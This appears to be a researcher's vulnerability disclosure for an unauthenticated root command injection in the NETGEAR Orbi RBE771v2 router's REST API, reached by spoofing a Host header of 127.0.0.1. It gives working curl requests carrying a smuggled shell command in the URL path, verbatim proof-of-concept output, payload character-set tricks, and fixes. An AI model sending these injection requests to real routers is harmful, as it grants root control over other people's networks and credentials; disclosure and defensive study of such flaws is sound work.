


# NETGEAR Orbi RBE771v2: Root Command Injection in `GET /api/v1/services/<name>` (details) via `Host` Header `localAccess` Bypass

- **Report date**: 2026-10-05
- **Vendor**: NETGEAR, Inc. (PSIRT)
- **Status**: Unfixed in the latest released firmware (V12.1.7.23, released 2026-09-02)

---

## Summary

NETGEAR Orbi RBE771v2 Wi-Fi 7 routers running the latest released firmware expose an unauthenticated root command injection in the SeAL REST API endpoint `GET /api/v1/services/<service_name>` (the "details" handler). The service name is taken verbatim from the URL path and concatenated — without any sanitization — into three shell commands (`opkg status …`, `ssvc status …`) executed via `io.popen()` / `os.execute()` by a Lua CGI running as **root**.

The endpoint belongs to the API router group that is gated by a `localAccess` check. That check trusts the CGI environment variable `HTTP_X_HOST`, and the front lighttpd's `mod_proxy` overwrites `X-Host` at the backend with the **client-supplied `Host` header**. Any unauthenticated LAN client can therefore satisfy the "local access" condition simply by sending `Host: 127.0.0.1`, reach the handler, and inject arbitrary shell commands that execute with `uid=0`.

The vulnerability was verified on the **unmodified released firmware** in full emulation (ARM 32-bit, chroot + qemu-arm-static, real lighttpd front/back + ACOS httpd stack), reproduced with real HTTP requests from the host: the injected command created a root-owned marker file, and the contrast run without the spoofed header confirmed the gate otherwise holds. Evidence level: **VALIDATED**.

## Affected Products, Models and Versions

| Product | Hardware / SoC | Firmware | Status |
|---|---|---|---|
| NETGEAR Orbi RBE771v2 (Orbi 770 series Wi-Fi 7 router) | Qualcomm IPQ5332, ARM 32-bit armhf + musl, OpenWrt 23.05 + Netgear ACOS, kernel 5.4.213 | `RBE771v2-V12.1.7.23.chk` (MD5 `57fc1d41e7fb24df04e15d6bf10896f2`, released 2026-09-02, latest release as of this report) | **Verified vulnerable** |

## Technical Details (Root Cause)

**Web architecture (SeAL two-tier).** The front lighttpd 1.4.82 on :80/:443 runs with **no authentication module** and proxies `^/api/` to a second lighttpd (`lighttpd_root`, root, loopback-only :16667), which executes `/www-seal/rest/rest.lua` (Lua 5.1 bytecode) as a root CGI. Everything else is proxied to the ACOS httpd on :9000.

**The vulnerable handler.** Disassembly of `rest.lua` (custom disassembler; the firmware uses a Lua 5.1.5 LNUM variant incompatible with unluac) shows the route `GET /services/:service_name` dispatches to `details()` in `usr/share/lua/seal-services.lua`, which reaches three shell sinks with the URL-derived `name` concatenated unsanitized:

- `is_installed()`: `io.popen("opkg status seal-service-"..name.." | grep '^Status: ' | awk '{printf \"%s\", $4}'")`
- `get_version()` (non-whitelisted branch): `io.popen("opkg status seal-service-"..name.." | grep Version | awk '{printf \"%s\", $2}'")`
- `service_running()`: `os.execute("ssvc status "..name.." >/dev/null 2>&1")`

The route parameter segment accepts the character class `[^/.]+` (router.lua v2.1.0 radix tree), i.e. **all shell metacharacters** (`; $ ( ) & …`) except `/` and `.` pass straight into the shell command lines.

**The gate and its bypass.** This route sits in "router1", which requires `debugEnabled` or `localAccess`. `localAccess` is granted when the CGI variable `HTTP_X_HOST` equals `127.0.0.1`/`localhost`. The front lighttpd's `mod_proxy` rewrites the backend's `X-Host` from the client `Host` header, so the real-world bypass vector is simply the request header **`Host: 127.0.0.1`**. This was confirmed by direct contrast testing: the identical injected request without the header returns the dispatcher's 404 and no sink executes; with the header it returns HTTP 200 and the injection fires.

**On-device payload charset restriction (measured).** The front lighttpd 1.4.82 `mod_proxy` re-encodes the characters `` > | space ` { } < " \ [ ] ^ `` in the request-target, so a real payload through the front proxy may only use `$ ( ) ; & = + , @ : ~ ! ' *`. A literal space is replaced by `$IFS@` (variable expansion to whitespace, `@` terminates the expansion), and since the router forbids `/` in the segment, command arguments cannot contain absolute paths — output files are written with relative names into the handler's CWD (`/www-seal/rest/`). This does not weaken the impact: arbitrary root command execution is already achieved, and a full shell can be staged via connect-back/download composed from the allowed characters.

**Verification environment.** Unmodified released firmware, full emulation on ARM 32-bit (chroot + qemu-arm-static, the firmware's real lighttpd front :8080 → proxy → lighttpd_root :16667 → rest.lua, plus the ACOS httpd stack), reproduced with real HTTP requests from the Windows host. The injected `touch` created a marker file owned by `root:root` in the emulated `/www-seal/rest/`.

## Proof of Concept

One-click exploit (`exploit_v3_services_details_injection.py`, Python 3 stdlib only), executed from the Windows host against the emulated front lighttpd at `192.168.135.137:8080` — verbatim real output:

```
$ python exploit_v3_services_details_injection.py 192.168.135.137 -p 8080
[*] RBE771v2 V12.1.7.23 V3 — /api/v1/services/<name> details command injection (Host-header localAccess bypass)
[*] target            : http://192.168.135.137:8080
[*] request-target    : /api/v1/services/x;touch$IFS@v3_proof
[*] marker (root CWD) : /www-seal/rest/@v3_proof

[1] CONTROL: injected request WITHOUT 'Host: 127.0.0.1' (localAccess gate should hold)
    HTTP 404 Not Found
    body: Invalid request - API endpoint not found: /services/x;touch$IFS@v3_proof

    -> gate HELD (404, details handler not executed)

[2] EXPLOIT: same request WITH 'Host: 127.0.0.1' (front mod_proxy maps Host -> X-Host)
    HTTP 200 OK
    body: Invalid service: 'x'. Valid services are: armor-bd spc-circle dumaos
{"service":{"installed":false,"running":true,"active":true,"enabled":true},"name":"x;touch$IFS@v3_proof","app":{"installable":false,"type":"native"}}

    [+] gate bypassed: details handler executed with our service name
    [+] shell sinks reached: opkg status / ssvc status ran with 'seal-service-x;touch$IFS@v3_proof'
    [+] injected command 'touch @v3_proof' executed as root in /www-seal/rest/

[3] Best-effort marker retrieval over HTTP (GET /seal/rest/@v3_proof)
    (HTTP 404 — marker not web-reachable on this deployment; check on device)

[+] CONFIRMED: localAccess gate bypass via Host header + root command injection
[+] CONFIRMED: unauthenticated LAN client achieved root command execution
[i] verify the marker on the device/emulation host:
      ls -la <chroot>/www-seal/rest/@v3_proof   # owner root, created by this run
```



Marker verification on the emulation host (the marker did not exist before the run; it was created by the injected `touch`, owned by root):

```
$ ls -la /home/iotsec-zone/rbe771_work/www-seal/rest/@v3_proof
-rw-r--r-- 1 root root 0 10月  5 15:56 /home/iotsec-zone/rbe771_work/www-seal/rest/@v3_proof
$ stat -c "owner=%U group=%G mode=%a size=%s mtime=%y" /home/iotsec-zone/rbe771_work/www-seal/rest/@v3_proof
owner=root group=root mode=644 size=0 mtime=2026-10-05 15:56:32.214454736 +0800
```



## Reproduction Steps

Prerequisites: any host on the LAN (no credentials, no session). On a real device the front lighttpd listens on :80; in the emulation it is mapped to :8080.

1. **Control — gate holds without the spoofed header:**
   
   ```bash
   curl --request-target '/api/v1/services/x;touch$IFS@v3_proof' 'http://<router>:80/'
   ```
2. **Exploit — same request with `Host: 127.0.0.1`:**
   ```bash
   curl -H 'Host: 127.0.0.1' --request-target '/api/v1/services/x;touch$IFS@v3_proof' 'http://<router>:80/'
   ```
3. Check the marker `/www-seal/rest/@v3_proof` (root-owned) on the device.

Verbatim real transcript from the emulation (Windows host → front lighttpd :8080 → proxy → lighttpd_root :16667 → rest.lua):

```
=== control (no Host spoof) ===
HTTP/1.1 404 Not Found
Content-Length: 73
Date: Mon, 05 Oct 2026 07:56:49 GMT
Server: lighttpd/1.4.82

Invalid request - API endpoint not found: /services/x;touch$IFS@v3_proof

=== exploit (Host: 127.0.0.1) ===
HTTP/1.1 200 OK
Accept-Ranges: bytes
Content-Length: 219
Date: Mon, 05 Oct 2026 07:56:49 GMT
Server: lighttpd/1.4.82

Invalid service: 'x'. Valid services are: armor-bd spc-circle dumaos
{"service":{"installed":false,"running":true,"active":true,"enabled":true},"name":"x;touch$IFS@v3_proof","app":{"installable":false,"type":"native"}}

$ ls -la /home/iotsec-zone/rbe771_work/www-seal/rest/@v3_proof
-rw-r--r-- 1 root root 0 10月  5 15:56 /home/iotsec-zone/rbe771_work/www-seal/rest/@v3_proof
```

The HTTP 200 response echoes the injected service name (`"name":"x;touch$IFS@v3_proof"`) and reports the result of the `opkg`/`ssvc` probes — proof that all three shell sinks executed with the attacker-controlled string. The `Invalid service: 'x'` line is normal handler output for a non-whitelisted name and does not indicate failure.

**Expected vs. actual behavior**

| | |
|---|---|
| **Expected** | A "local access only" administrative API enforces the restriction using the peer's socket address; URL path parameters are never concatenated into shell commands; unauthenticated LAN clients cannot execute OS commands, let alone as root. |
| **Actual** | Sending `Host: 127.0.0.1` satisfies `localAccess` from any LAN host; the service name from the URL is injected into `opkg status …` / `ssvc status …` shell commands that run as `uid=0`. One unauthenticated HTTP request yields root command execution. |

## Security Impact

- **Unauthenticated root RCE from the LAN**: any device on the network (wired or wireless, including guests) executes arbitrary commands as `uid=0` — read/write any file, modify firmware and startup items, steal configuration (Wi-Fi passwords, PPPoE credentials), install persistent malware.
- **Traffic manipulation**: DNS/DHCP poisoning against every LAN client; TLS interception via certificate installation.
- **Service/package state tampering**: the sinks ride on `opkg` and `ssvc`, so package status and LXC service state can be manipulated as a side effect.
- **Internet exposure**: if remote management (WAN :80/443) is enabled, this becomes an unauthenticated Internet-facing root RCE.
- The payload charset restriction imposed by `mod_proxy` only constrains one-shot payloads; it does not prevent staging a full reverse/bind shell via the allowed characters.

## Recommended Fix

1. **Never build shell commands from user input**: replace `io.popen("opkg status seal-service-"..name…)` and `os.execute("ssvc status "..name…)` with parameterized execution or Lua-native checks (the same codebase's `seal-io` already has a safe `is_directory` via `lfs.attributes` — follow that pattern).
2. Enforce a strict whitelist on `service_name` (e.g. `^[%w-]+$`) at the router/handler boundary.
3. **`localAccess` must not trust client-controllable headers**: decide locality from the peer socket address (`REMOTE_ADDR`), never from `Host`/`X-Host`/`X-Forwarded-For`.
4. Put the entire SeAL REST layer (`/api/v1/*`) behind admin session authentication at the front lighttpd (which currently loads no auth module at all).
5. Audit sibling models/images built from the same SeAL codebase for the same pattern.

## Mitigation for End Users (until a fix ships)

No GUI switch disables the SeAL API. Keep untrusted devices off the LAN/WLAN (including guest networks), disable remote management (WAN access to :80/:443), and where possible block client-to-router traffic to the management ports from untrusted segments.

## Attachments

- `exploit_v3_services_details_injection.py` — one-click PoC (control run, gate bypass, injection, verdict; Python 3 standard library only).

## Researcher Contact & Credit

- **Name**: 【Lumina】
- **Contact**: 【1547800591@qq.com】

---
